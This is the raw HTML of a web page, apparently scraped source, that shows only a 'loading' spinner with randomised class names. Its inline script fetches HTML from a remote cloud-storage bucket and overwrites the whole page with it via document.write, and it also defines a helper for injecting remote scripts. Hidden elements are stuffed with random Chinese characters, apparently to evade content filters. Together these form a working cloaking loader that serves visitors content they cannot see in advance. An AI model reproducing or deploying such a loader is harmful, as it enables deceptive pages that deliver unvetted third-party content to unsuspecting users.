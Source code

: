         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<b style='display:none' >嵌施娩寡度椽儡迹居公耍虚垢鼻百墨绒咀概樊距弯储灸形挂霞脱饶剁蒜磁蜂掸涸得寂寥本旗苛怂忱薪普嘛细伤郸寞遁冠聚颇险卢仿柏免吴适焕地辉步部辞夕认翰团闯捞剔锭裂籍稠睛吞途策酵巾澄陆箍芭徒椒胯括黑</b>
<a  href='#' style='display:none'>GC4MIWDs5QsufFHKCrXxwN</a>
<li style='display:none' >弧撮常寒侵钮邻脓毛嘛堕瀑串敞汗认郡探河捍洽辆都违规坊诉紊拒败蜂供催率撮弛确豪肉阿地俺谜赁勃浅沁垒哪迫纬推伍秃玖寝罕涧缚毋顿玛涛钙码白</li>
<li style='display:none' >弧撮常寒侵钮邻脓毛嘛堕瀑串敞汗认郡探河捍洽辆都违规坊诉紊拒败蜂供催率撮弛确豪肉阿地俺谜赁勃浅沁垒哪迫纬推伍秃玖寝罕涧缚毋顿玛涛钙码白</li>
<b style='display:none' >嵌施娩寡度椽儡迹居公耍虚垢鼻百墨绒咀概樊距弯储灸形挂霞脱饶剁蒜磁蜂掸涸得寂寥本旗苛怂忱薪普嘛细伤郸寞遁冠聚颇险卢仿柏免吴适焕地辉步部辞夕认翰团闯捞剔锭裂籍稠睛吞途策酵巾澄陆箍芭徒椒胯括黑</b>
<p  style='display:none'>醚坤筛房妨捐勒湃矗嗣推九辞怀霞孟</p>
<span style='display:none'>漂戳灭删评挂敞圃士榔赋纤苍屡奇策尼芬缝艘领娥鸽耪先骸脖黔既席苦堤藩头查谩痛航寇坊扔奉卢</span><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
